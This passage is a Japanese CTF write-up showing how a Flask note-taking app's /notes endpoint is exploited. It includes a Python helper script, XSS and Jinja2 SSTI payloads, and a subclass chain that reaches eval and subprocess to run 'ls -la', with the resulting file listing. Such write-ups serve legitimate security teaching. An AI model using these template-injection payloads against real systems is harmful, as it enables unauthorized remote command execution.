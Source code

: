 HTML を見てみると、以下のような気になるコメントがありました。

```html
<!-- DEPRECATED <script>
    $.getJSON("/notes", (res) => {
        res.forEach(o => {
            notesList.append(document.createTextNode(o));
        });
    });
</script> -->
```

`/notes` に GET でアクセスしています。試しに `/notes` にアクセスしてみると、以下のようにこちらでは SSTI と XSS ができることがわかりました。

```javascript
['49<script>alert(1)</script>']
```

この Web アプリケーションには admin に URL を報告すると巡回してくれるというような機能がなく、XSS は使い所がありません。SSTI から攻めていきましょう。

ペイロードを試すたびに `textarea` に入力して送信し、`/notes` にアクセスするというのを繰り返すのは面倒なので、これを簡単にできる Python スクリプトを書いておきましょう。

```python
import html
import sys
import requests

BASE = 'http://(省略)'
PAYLOAD = sys.argv[1]

session = requests.Session()
session.post(BASE + '/notes', data={
  'text': PAYLOAD
})
print(html.unescape(eval(session.get(BASE +'/notes').text)[0]))
```

`{% raw %}{{{% endraw %}config}}` を投げると `SECRET_KEY` や `PROPAGATE_EXCEPTIONS` といったキーが見え、Flask が使われていることがわかります。

[Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) を参考に色々試していると、`{% raw %}{{{% endraw %}''.__class__.__mro__[1].__subclasses__()[167]}}` で `warnings.catch_warnings` を取り出すことができました。

さらにたどっていくと、`{% raw %}{{{% endraw %}''.__class__.__mro__[1].__subclasses__()[167].__init__.__globals__['__builtins__']['eval']}}` で `eval` を取り出すことができました。

あとはやるだけです。`{% raw %}{{{% endraw %}''.__class__.__mro__[1].__subclasses__()[167].__init__.__globals__['__builtins__']['eval']('__import__')('subprocess').check_output('ls -la',shell=True)}}` で以下のようにファイルの一覧が取得できました。

```
total 40
dr-xr-xr-x 1 site site 4096 Apr 12 15:42 .
drwxr-xr-x 1 root root 4096 Apr 12 15:32 ..
-r--r--r-- 1 site site  220 Apr  4  2018 .bash_logout
-r--r--r-- 1 site site 3818 Apr 12 15:42 .bashrc
-r--r--r-- 1 site site  807 Apr  4  2018 .profile
drwxr-xr-x 2 root root 4096 Apr 12 15:42 __pycache__
-r--r--r-- 1 root root   46 Apr 12 15:32 flag
-r-x-w---- 1 root root  800 Apr 12 15:28 server.py
dr-xrwxr-x 1 root root 4096 Apr  4 09:00 templates
```

